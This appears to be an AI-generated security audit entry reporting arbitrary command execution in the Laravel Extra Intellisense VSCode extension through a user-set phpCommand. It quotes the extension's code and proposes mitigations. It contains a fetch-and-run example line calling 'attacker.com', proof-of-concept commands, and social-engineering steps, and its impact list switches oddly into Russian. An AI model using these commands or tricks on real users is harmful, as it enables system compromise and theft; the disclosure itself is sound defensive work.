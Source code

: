 Based on the provided instructions and the analysis of the vulnerability description, the vulnerability is valid, part of the attack vector, and meets the severity criteria. It is not excluded by any of the negative conditions.

Therefore, the vulnerability should be included in the updated list.

```markdown
### Vulnerability List:

- Vulnerability Name: Arbitrary Command Execution via Malicious `phpCommand` Configuration
- Description:
    1. An attacker cannot directly exploit the extension. Instead, they rely on social engineering to trick a user into manually changing the `LaravelExtraIntellisense.phpCommand` setting in their VSCode configuration.
    2. The attacker crafts a malicious command, for example, `bash -c "curl attacker.com/malicious_script.sh | bash"`, or simply `touch /tmp/pwned`.
    3. The attacker convinces the user to replace the default `phpCommand` value with this malicious command. This could be achieved through various social engineering techniques, such as:
        - Posting instructions in a public forum or blog that appear to improve the extension's performance or add new features, but include the malicious `phpCommand` setting.
        - Directly messaging or emailing developers with seemingly helpful configuration tips that contain the malicious setting.
        - Tricking a user into importing malicious settings JSON into VSCode.
    4. Once the user has configured the malicious `phpCommand`, the vulnerability is armed.
    5. The extension periodically refreshes Laravel project data to provide autocompletion features. This refresh process involves executing PHP code using the command specified in the `phpCommand` setting.
    6. When the extension attempts to refresh data (e.g., when a user opens a relevant file, or after a file system change within the project), it executes the malicious command configured in `phpCommand`.
    7. The malicious command is executed with the privileges of the user running VSCode, leading to arbitrary command execution on the user's system.
- Impact:
    - **Critical Impact:** Successful exploitation of this vulnerability allows the attacker to execute arbitrary commands on the user's system. The impact is severe as it can lead to:
        - **полное компрометация системы (Full System Compromise):** The attacker can gain complete control over the user's machine.
        - **кража конфиденциальных данных (Sensitive Data Theft):** The attacker can steal sensitive information, including code, credentials, and personal data.
        - **установка вредоносного ПО (Malware Installation):** The attacker can install malware, ransomware, or other malicious software.
        - **действия от имени пользователя (Actions on Behalf of User):** The attacker can perform actions on behalf of the user, potentially compromising other accounts or systems.
- Vulnerability Rank: Critical
- Currently Implemented Mitigations:
    - **Security Note in README.md:** The extension's README.md file includes a "Security Note" section that warns users about the risks associated with the `phpCommand` setting. It advises users to "read the [security note](#security-note) and [how to configure](#sample-config-to-use-docker) before using the extension." and cautions that "if you have any unknown errors in your log make sure the extension not causing it." and "if you writing any sensitive code in your service providers, disable the extension temporarily to prevent unwanted application executing.".
        - Location: [README.md](../vscode-laravel-extra-intellisense\README.md)
        - Effectiveness: Low. This mitigation relies solely on users reading and understanding the security implications, which is often insufficient to prevent exploitation, especially through social engineering. It does not prevent users from making insecure configurations.
- Missing Mitigations:
    - **Input Validation and Sanitization for `phpCommand`:** The extension should validate and sanitize the `phpCommand` setting to prevent the execution of arbitrary commands. This could involve:
        - **Whitelisting allowed commands:** Restricting the `phpCommand` to only accept `php` or similar safe executables.
        - **Parameter sanitization:** Ensuring that the `{code}` parameter is properly escaped and that no additional commands can be injected.
        - **Command parsing and verification:** Analyzing the configured command to ensure it conforms to expected patterns and does not contain suspicious elements.
    - **Warning Message on `phpCommand` Modification:** When a user modifies the `phpCommand` setting, the extension should display a prominent warning message that clearly explains the security risks of setting a custom command and advises caution. This warning should:
        - Be displayed directly in VSCode when the setting is changed.
        - Highlight the potential for arbitrary command execution.
        - Recommend using only trusted and necessary commands.
        - Link to the security note in the README for more details.
    - **Restricting PHP Code Capabilities:** The extension could limit the capabilities of the PHP code that is executed using the `phpCommand`. Instead of executing arbitrary user-provided or dynamically generated code, the extension could:
        - Use a predefined set of safe PHP functions.
        - Execute PHP code in a sandboxed environment with restricted permissions.
        - Utilize safer methods for data extraction from Laravel projects that do not involve executing arbitrary PHP code, if feasible.
- Preconditions:
    1. User has installed the "Laravel Extra Intellisense" VSCode extension.
    2. User has a Laravel project opened in VSCode.
    3. Attacker successfully social engineers the user into changing the `LaravelExtraIntellisense.phpCommand` setting to a malicious command.
- Source Code Analysis:
    1. **`helpers.ts:runPhp(code: string, description: string|null = null)`:** This function is responsible for executing PHP code.
        ```typescript
        static async runPhp(code: string, description: string|null = null) : Promise<string> {
            code = code.replace(/\"/g, "\\\"");
            if (['linux', 'openbsd', 'sunos', 'darwin'].some(unixPlatforms => os.platform().includes(unixPlatforms))) {
                code = code.replace(/\$/g, "\\$");
                code = code.replace(/\\\\'/g, '\\\\\\\\\'');
                code = code.replace(/\\\\"/g, '\\\\\\\\\"');
            }
            let commandTemplate = vscode.workspace.getConfiguration("LaravelExtraIntellisense").get<string>('phpCommand') ?? "php -r \"{code}\"";
            let command = commandTemplate.replace("{code}", code);
            let out = new Promise<string>(function (resolve, error) {
                if (description != null) {
                    Helpers.outputChannel?.info("Laravel Extra Intellisense command started: " + description);
                }

                cp.exec(command,
                    { cwd: vscode.workspace.workspaceFolders && vscode.workspace.workspaceFolders.length > 0 ? vscode.workspace.workspaceFolders[0].uri.fsPath : undefined },
                    function (err, stdout, stderr) {
                        if (err == null) {
                            if (description != null) {
                                Helpers.outputChannel?.info("Laravel Extra Intellisense Resolved: " + description);
                            }
                            resolve(stdout);
                        } else {
                            const errorOutput = stderr.length > 0 ? stderr : stdout;
                            Helpers.outputChannel?.error("Laravel Extra Intellisense Error:\n " + (description ?? '') + '\n\n' + errorOutput);
                            Helpers.showErrorPopup();
                            error(errorOutput);
                        }
                    }
                );
            });
            return out;
        }
        ```
        - The vulnerability lies in line `11`: `let commandTemplate = vscode.workspace.getConfiguration("LaravelExtraIntellisense").get<string>('phpCommand') ?? "php -r \"{code}\"";`. This line retrieves the `phpCommand` setting directly from the user configuration without any validation.
        - Line `12`: `let command = commandTemplate.replace("{code}", code);` then directly substitutes the `{code}` placeholder in the template with the generated PHP code.
        - Line `17`: `cp.exec(command, ...)` executes the constructed command using `child_process.exec`. This allows execution of any command specified in `phpCommand`, including malicious ones.
    2. **`helpers.ts:runLaravel(code: string, description: string|null = null)`:** This function uses `runPhp` to execute Laravel commands. Many other provider files call `runLaravel` to gather data for autocompletion features. For example, `ViewProvider.ts`, `RouteProvider.ts`, `ConfigProvider.ts`, `TranslationProvider.ts`, `EnvProvider.ts`, `AuthProvider.ts`, and `EloquentProvider.ts`.
        ```typescript
        static runLaravel(code: string, description: string|null = null) : Promise<string> {
            code = code.replace(/(?:\r\n|\r|\n)/g, ' ');
            if (fs.existsSync(Helpers.projectPath("vendor/autoload.php")) && fs.existsSync(Helpers.projectPath("bootstrap/app.php"))) {
                var command =
                    "define('LARAVEL_START', microtime(true));" +
                    "require_once '" + Helpers.projectPath("vendor/autoload.php", true) + "';" +
                    "$app = require_once '" + Helpers.projectPath("bootstrap/app.php", true) + "';" +
                    "class VscodeLaravelExtraIntellisenseProvider extends \\Illuminate\\Support\\ServiceProvider" +
                    "{" +
                    "   public function register() {}" +
                    "	public function boot()" +
                    "	{" +
                    "       if (method_exists($this->app['log'], 'setHandlers')) {" +
                    "			$this->app['log']->setHandlers([new \\Monolog\\Handler\\ProcessHandler()]);" +
                    "		}" +
                    "	}" +
                    "}" +
                    "$app->register(new VscodeLaravelExtraIntellisenseProvider($app));" +
                    "$kernel = $app->make(Illuminate\\Contracts\\Console\\Kernel::class);" +

                    "$status = $kernel->handle(" +
                        "$input = new Symfony\\Component\\Console\\Input\\ArgvInput," +
                        "new Symfony\\Component\\Console\\Output\\ConsoleOutput" +
                    ");" +
                    "if ($status == 0) {" +
                    "	echo '___VSCODE_LARAVEL_EXTRA_INSTELLISENSE_OUTPUT___';" +
                        code +
                    "	echo '___VSCODE_LARAVEL_EXTRA_INSTELLISENSE_END_OUTPUT___';" +
                    "}" +
                    "$kernel->terminate($input, $status);" +
                    "exit($status);"

                var self = this;

                return new Promise(function (resolve, error) {
                    self.runPhp(command, description)
                        .then(function (result: string) {
                            var out : string | null | RegExpExecArray = result;
                            out = /___VSCODE_LARAVEL_EXTRA_INSTELLISENSE_OUTPUT___(.*)___VSCODE_LARAVEL_EXTRA_INSTELLISENSE_END_OUTPUT___/g.exec(out);
                            if (out) {
                                resolve(out[1]);
                            } else {
                                error("PARSE ERROR: " + result);

                                Helpers.outputChannel?.error("Laravel Extra Intellisense Parse Error:\n " + (description ?? '') + '\n\n' + result);
                                Helpers.showErrorPopup();
                            }
                        })
                        .catch(function (e : Error) {
                            error(e);
                        });
                });
            }
            return new Promise((resolve, error) => resolve(""));
        }
        ```
        - This function constructs a PHP script that boots the Laravel application and executes the provided `$code`.
        - Crucially, it calls `self.runPhp(command, description)` in line `40` to execute this script, thus inheriting the vulnerability from `runPhp`.
    3. **Provider Files (e.g., `RouteProvider.ts`, `ViewProvider.ts`, etc.):** These files use `Helpers.runLaravel()` to retrieve data for autocompletion. For example, in `RouteProvider.ts`:
        ```typescript
        loadRoutes() {
            if (vscode.workspace.workspaceFolders instanceof Array && vscode.workspace.workspaceFolders.length > 0) {
                try {
                    var self = this;
                    Helpers.runLaravel(
                            "echo json_encode(array_map(function ($route) {" +
                            "    return ['method' => implode('|', array_filter($route->methods(), function ($method) {" +
                            "        return $method != 'HEAD';" +
                            "    })), 'uri' => $route->uri(), 'name' => $route->getName(), 'action' => str_replace('App\\\\Http\\\\Controllers\\\\', '', $route->getActionName()), 'parameters' => $route->parameterNames()];" +
                            "}, app('router')->getRoutes()->getRoutes()));",
                            "HTTP Routes"
                        )
                        .then(function (result) {
                            var routes = JSON.parse(result);
                            routes = routes.filter((route: any) => route !== 'null');
                            self.routes = routes;
                        });
                } catch (exception) {
                    console.error(exception);
                }
            }
        }
        ```
        - `Helpers.runLaravel(...)` is called to execute a PHP script that retrieves route information. This call, and similar calls in other providers, becomes vulnerable when a malicious `phpCommand` is configured.

- Security Test Case:
    1. **Setup:**
        - Install the "Laravel Extra Intellisense" extension in VSCode.
        - Open a valid Laravel project in VSCode.
    2. **Configure Malicious `phpCommand`:**
        - Go to VSCode settings (`File` > `Preferences` > `Settings` or `Code` > `Settings` > `Settings` on macOS).
        - Search for "Laravel Extra Intellisense" settings.
        - Locate the `LaravelExtraIntellisense: Php Command` setting.
        - Change the value to a malicious command. For example, to create a file in the `/tmp` directory (Linux/macOS), use: `bash -c "touch /tmp/pwned_laravel_extension"`. For Windows, you might use `powershell -c "New-Item -ItemType File -Path C:\pwned_laravel_extension.txt"`.
    3. **Trigger Extension Activity:**
        - Open any PHP file within your Laravel project (e.g., a controller or a blade template).
        - Start typing a Laravel function that triggers autocompletion from the extension, such as `route('` or `config('` or `view('`. This forces the extension to refresh its data using the `phpCommand`.
    4. **Verify Command Execution:**
        - Check if the malicious command has been executed.
            - For the `touch /tmp/pwned_laravel_extension` example, check if the file `/tmp/pwned_laravel_extension` exists in the `/tmp` directory.
            - For the `powershell -c "New-Item -ItemType File -Path C:\pwned_laravel_extension.txt"` example, check if the file `C:\pwned_laravel_extension.txt` exists.
    5. **Expected Result:** If the file (`/tmp/pwned_laravel_extension` or `C:\pwned_laravel_extension.txt`) is created, it confirms that the malicious command configured in `phpCommand` was successfully executed by the extension. This demonstrates the Arbitrary Command Execution vulnerability.
